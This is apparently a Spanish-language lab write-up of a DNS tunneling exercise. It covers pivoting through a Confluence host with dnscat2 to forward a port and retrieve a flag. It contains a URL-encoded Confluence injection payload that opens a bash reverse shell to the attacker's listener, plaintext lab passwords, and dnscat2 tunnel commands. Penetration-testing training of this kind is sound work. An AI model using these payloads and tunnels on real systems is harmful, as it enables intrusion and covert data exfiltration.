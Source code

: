 # Walk: Tunneling Through Deep Packet Inspection - DNS Tunneling Fundamentals - VM Group 

## Fecha: 02/04/2025
## Host: FELINEAUTHORITY (DNS server malicioso) 192.168.xxx.7 | CONFLUENCE01 (Pivote) 192.168.xxx.63 | MULTISERVER03 (DNS server) 192.168.xxx.64 | PGDATABASE01 10.4.xxx.215 | HRSHARES 172.16.xxx.217

## Objetivo

Follow the steps in this section to set up the dnscat2 server on FELINEAUTHORITY, and execute the dnscat2 client on PGDATABASE01. Download the dnscat_exercise_client from the Resources section ro your Kali machine. If you're running the aarch64 build of Kali, download the dnscat_exercise_client_aarch64 binary instead. Set up a port forward with dnscat2 which allows you to run the binary against the server running on port 4646 on HRSHARES.

Note: the source files used to build the client binaries can be downloaded from /exercises/client_source.zip.

## Herramientas
1. ssh
2. dnscat2

## Procedimiento y comandos
#### Paso 1: Configuramos el Servidor DNS con dnscat2
1. Conexón al servidor kali
```
ssh kali@192.168.241.7
password: 7he_C4t_c0ntro11er
```
2. Accedemos a nuestra maquina pivote:
>Con el receptor nc escuchando en el puerto 4444, y el servicio ssh activo en nuestra maquina kali.
```
curl -v http://192.168.xxx.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.xxx/4444%200%3E%261%27%29.start%28%29%22%29%7D/
```
3. Una vez dentro generamos un ssh port forwarding con PGDATABASE01
- `python3 -c 'import pty; pty.spawn("/bin/sh")'`
- `ssh database_admin@10.4.xxx.215`
- `database_admin@10.4.xxx.215's password: sqlpass123`

4. Generamos la conexion en el Cliente:
```
database_admin@pgdatabase01:~/dnscat$ ./dnscat feline.corp
./dnscat feline.corp
Creating DNS driver:
 domain = feline.corp
 host   = 0.0.0.0
 port   = 53
 type   = TXT,CNAME,MX
 server = 127.0.0.53

Encrypted session established! For added security, please verify the server also displays this string:

Peace Strode Bunny Winful Phials Peaty 

Session established!
```
5. Configuramos el tunel en el Servidor Kali:
- `dnscat2-server feline.corp`
- `?`
- `window`
- `window -i 1`
- `listen 0.0.0.0:4647 172.16.241.217:4646`

```
kali@felineauthority:~$ dnscat2-server feline.corp
[sudo] password for kali: 

New window created: 0
...

Starting Dnscat2 DNS server on 0.0.0.0:53
[domains = feline.corp]...

...

dnscat2> ?

Here is a list of commands (use -h on any of them for additional help):
* echo
* help
* kill
* quit
* set
* start
* stop
* tunnels
* unset
* window
* windows

dnscat2> window 
0 :: main [active]
  crypto-debug :: Debug window for crypto stuff [*]
  dns1 :: DNS Driver running on 0.0.0.0:53 domains = feline.corp [*]
  1 :: command (pgdatabase01) [encrypted, NOT verified] [*]

dnscat2> window -i 1
New window created: 1
...
This is a command session!
...
command (pgdatabase01) 1> ?

Here is a list of commands (use -h on any of them for additional help):
* clear
* delay
* download
* echo
* exec
* help
* listen
* ping
* quit
* set
* shell
* shutdown
* suspend
* tunnels
* unset
* upload
* window
* windows
command (pgdatabase01) 1> listen 0.0.0.0:4647 172.16.241.217:4646
Listening on 0.0.0.0:4647, sending connections to 172.16.241.217:4646
command (pgdatabase01) 1> Connection from 192.168.45.235:41542; forwarding to 172.16.241.217:4646...
[Tunnel 0] connection successful!
```
#### Paso 2: Ejecutamos el binario descargado de los recursos y obtenemos el flag:
```
┌──(root㉿kali)-[/home/kali/]
└─# ./dnscat_excercise_client -i 192.168.xxx.7 -p 4647 
Connecting to 192.168.241.7:4647
Flag: "OS{63b89**************************5450c}"
```
